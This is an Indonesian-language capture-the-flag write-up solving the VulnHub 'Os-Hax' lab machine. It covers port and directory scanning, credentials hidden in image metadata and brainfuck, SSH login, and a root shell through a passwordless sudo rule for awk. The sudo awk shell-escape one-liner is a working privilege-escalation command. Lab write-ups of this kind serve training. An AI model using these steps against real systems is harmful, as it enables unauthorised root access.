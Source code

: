 ```yaml
---
title: "[VulnHub] Os-Hax WriteUp"
date: 2019-04-20T22:14:10+07:00
categories:
  - blog
tags: 
  - vulnhub
  - writeup
  - awk
---
```


## Setup 
Edit file `/etc/hosts` menjadi seperti dibawah agar static web mesin bisa berjalan.
```
#127.0.0.1      localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
#::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

<IP_mesin> localhost
```

Untuk mencari IP mesin bisa dengan menggunakan `nmap` atau `netdiscover`

## Information Gathering
### nmap
`nmap -sV -sC -p- localhost -oN initial.nmap -v`
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 43:0e:61:74:5a:cc:e1:6b:72:39:b2:93:4e:e3:d0:81 (RSA)
|   256 43:97:64:12:1d:eb:f1:e9:8c:d1:41:6d:ed:a4:5e:9c (ECDSA)
|_  256 e6:3a:13:8a:77:84:be:08:57:d2:36:8a:18:c9:09:d6 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 5ECF6AFD7D00CCBE6B3C7AA8FD31BDE8
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Hacker_James
MAC Address: 08:00:27:E2:E3:E2 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### dirb
`dirb http://localhost /usr/share/wordlists/dirb/common.txt`
```
---- Scanning URL: http://localhost/ ----
==> DIRECTORY: http://localhost/css/
==> DIRECTORY: http://localhost/html/
==> DIRECTORY: http://localhost/img/
+ http://localhost/index.html (CODE:200|SIZE:3135)
==> DIRECTORY: http://localhost/js/
+ http://localhost/server-status (CODE:403|SIZE:274)
==> DIRECTORY: http://localhost/wordpress/
```

### wpscan
Karena server menjalankan wordpress maka kita bisa coba cari celah wordpress dengan `wpscan`.
`wpcan --url http://localhost/wordpress/`
Namun dari hasil scan dgn menggunakan `wpscan` tidak ditemukan hal yang menarik, server pake wordpress versi terbaru, tema bawaan, dan no plugin.  

Kembali ke ~~laptop~~ `dirb`, buka direktori `/img` 
!['/img'](/os-hax/img.png){: img_content }
Ada file menarik yaitu `flaghost.png`, download file tsb lalu examine dengan `exiftool`.

### exiftool
Exiftool adalah software open-source berbasis perl untuk membaca, mengedit, dan memanipulasi metadata dari berbagai macam tipe file. [_exiftool.org_](https://exiftool.org/) 
>Metadata is "data that provides information about other data". In other words, it is "data about data.[_wikipedia.org_](https://en.wikipedia.org/wiki/Metadata)

```
Pixels Per Unit X               : 3780
Pixels Per Unit Y               : 3780
Pixel Units                     : meters
Make                            : passw@45
Image Size                      : 387x98
Megapixels                      : 0.038
```

ada string `passw@45` di meta `Make`. *Note*: sebelum menggunakan `exiftool` bisa coba pakai command `strings` terlebih dahulu untuk mengecek apakah ada string yang disematkan ke file gambar tsb.  

Kira-kira apakah teks `passw@45` tersebut ? :thinking: kalo password login ssh dimana usernamenya?, lalu coba ekstrak string dari gambar lain di direktori `/img` tapi ternyata *zonk* :man_facepalming:.  

Lalu entah dapet ilham darimana saya coba untuk masukin teks tersebut ke url bar dan ternyata itu clue direktori :man_facepalming: :man_facepalming: .
![passw](/Os-Hax/passw.png){: img_content }  
Nah di dalam direktori tersebut ada file `flag2.txt` dg bahasa brainfuck.
```
i+++++ +++++ [->++ +++++ +++<] >++++ +++++ +++++ +++++ .<+++ +[->- ---<]
>--.- --.<+ +++++ [->-- ----< ]>--- -.<++ +[->+ ++<]> +++++ .<+++ ++[->
+++++ <]>.+ +.+++ +++++ .---- --.<+ ++[-> +++<] >++++ .<+++ ++++[ ->---
----< ]>-.< +++[- >---< ]>--- .+.-- --.++ +.<
```

>Brainfuck is an esoteric programming language created in 1993 by Urban Müller, and is notable for its extreme minimalism. The language consists of only eight simple commands and an instruction pointer. (_wikipedia.org_)[https://en.wikipedia.org/wiki/Brainfuck]

Next copas isi `flag2.txt` ke brainfuck interpreter macam (`copy.sh`)[https://copy.sh/brainfuck/]. Jalankan, dan kita dapat outputnya.. `web:Hacker@4514` 

## Exploitation
### User Flag
`ssh` dengan username dan password diatas lalu kita dapat flag user.
```
web@jax:~$ id
uid=1001(web) gid=1000(uname-a) groups=1000(uname-a)
web@jax:~$ ls
flag3.txt
web@jax:~$ cat flag3.txt 
   ______          ______          ____                 __ 
  / ____/____     /_  __/____     / __ \ ____   ____   / /_
 / / __ / __ \     / /  / __ \   / /_/ // __ \ / __ \ / __/
/ /_/ // /_/ /    / /  / /_/ /  / _, _// /_/ // /_/ // /_  
\____/ \____/    /_/   \____/  /_/ |_| \____/ \____/ \__/  
                                                           

MD5-HASH : 40740735d446c27cd551f890030f7c75
```
Next adalah dengan menjalankan [linenum.sh](https://github.com/rebootuser/LinEnum/) di direktori `/tmp`.

```
[+] We can sudo without supplying a password!
Matching Defaults entries for web on jax:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User web may run the following commands on jax:
    (root) NOPASSWD: /usr/bin/awk


[+] Possible sudo pwnage!
/usr/bin/awk
```
Dari hasil enumerasi diatas kita menemukan entri `sudoers` yang memungkinkan kita (user `web`) untuk menjalankan perintah `awk` secara `sudo` tanpa perlu memasukkan password.  
Hal itu dapat ditunjukkan dengan membuka '/etc/sudoers' dan melihat user privilege specification untuk user `web`.
`web     ALL= (root) NOPASSWD: /usr/bin/awk` 
Nah berhubung saya gak paham cara penggunaan `awk`, site [gtfobins](https://gtfobins.github.io/gtfobins/awk/) menjadi penyelamat.
`sudo awk 'BEGIN {system("/bin/sh")}'`
Dan kita dapat akses root :smile:
![final](/Os-Hax/final.png){: .img_content }

<hr>

Referensi: 
[https://linux.die.net/man/5/sudoers](https://linux.die.net/man/5/sudoers)  
[https://gtfobins.github.io](https://gtfobins.github.io)
